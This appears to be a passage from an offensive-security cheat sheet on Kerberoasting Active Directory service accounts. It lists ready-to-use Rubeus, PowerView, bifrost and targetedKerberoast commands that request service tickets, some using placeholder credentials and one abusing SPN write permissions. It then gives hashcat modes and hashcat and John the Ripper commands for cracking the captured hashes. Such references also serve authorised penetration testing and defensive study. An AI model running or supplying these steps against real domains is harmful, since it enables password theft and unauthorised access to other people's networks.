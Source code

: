 * [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  ```powershell
  Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
  ```

* [bifrost](https://github.com/its-a-feature/bifrost) on **macOS** machine
  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

* [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
  ```powershell
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ``` 


Then crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`) 
	
| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```
